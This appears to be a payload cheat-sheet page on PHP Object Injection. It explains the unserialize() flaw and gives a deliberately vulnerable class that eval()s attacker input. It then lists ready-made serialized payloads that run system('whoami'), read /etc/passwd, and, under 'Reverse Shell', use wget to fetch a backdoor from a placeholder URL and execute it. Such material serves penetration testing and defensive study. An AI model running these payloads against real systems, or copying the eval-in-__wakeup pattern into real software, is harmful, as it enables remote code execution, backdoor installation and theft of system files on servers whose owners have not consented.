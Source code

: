 # PHP Object Injection

PHP Object Injection is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

Also you should check the `Wrapper Phar://` in [File Inclusion - Path Traversal](github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#wrapper-phar) which use a PHP object injection.

## Exploit with the __wakeup in the unserialize function

Vulnerable code:

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```

Payload:

```php
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"

```

## Others exploits

Reverse Shell

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

Basic detection

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

## Thanks to

* [PHP Object Injection - OWASP](https://www.owasp.org/index.php/PHP_Object_Injection)
* [PHP Object Injection - Thin Ba Shane](http://location-href.com/php-object-injection/)